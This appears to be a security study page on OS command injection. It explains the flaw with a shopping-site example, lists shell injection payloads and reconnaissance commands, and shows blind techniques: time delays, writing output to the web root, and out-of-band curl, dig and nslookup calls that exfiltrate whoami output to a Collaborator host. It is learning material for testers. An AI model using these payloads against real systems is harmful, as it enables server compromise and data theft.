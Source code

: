 ```yaml
---
title: Command Injection
category: Web
order: 9
---
```


# Injecting OS Commands

OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data. 

Example:

A shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL: 

```
https://example.com/stockStatus?productID=381&storeID=29
```

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments: 

```
python3 stockreport.py 381 29
```

If the application implements no defenses against OS command injection, an attacker could submit the following input to execute an arbitrary command: 

```
& echo aiwefwlguh &
```

Final command:

```
python3 stockreport.py & echo aiwefwlguh & 29
```

## Typicall payloads

```
;id
& id &
|| id || 
$(id)
| id |
`id`
0x0a id 0x0a
\n id
```

## Useful Commands

|   **Linux**   |  **Windows** | **Description**     |
|:-------------:|:------------:|---------------------|
|     whoami    |    whoami    | Current user        |
|    uname -a   |      ver     | OS Version          |
|    ifconfig   |   ipconfig   | Network config      |
| netstat -tlpn | netstat -ano | Network connections |
|     ps -ef    |   tasklist   | Processes           |

# Blind Command Injection

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required. 

## Using Time Delays

The `ping` command is a good way to exploit it because we can specify the number of ICMP packets to send. This enable us to control the time taken for the command to run.

```
& ping -c 10 127.0.0.1 &
```

## Redirecting the output

We can redirect the output from the injected command into a file.

```
& whoami > /var/www/whoami.txt &
```

Finally if we achieved to redirect the output to a directory which is available on the web.

```
https://example.com/whoami.txt
```

## Out-of-band (OAST)

We can trigger an out-of-band network interaction with a system we control such as ICMP, HTTP or DNS.

> **Note**: Internet connection needed.


```
& curl http://burp-collaborator.oastify.com/rce &
& dig burp-collaborator.oastify.com &
& nslookup burp-collaborator.oastify.com &
```

We can use these channels to easily exfiltrate data:

```
& nslookup `whoami`.burp-collaborator.oastify.com &
```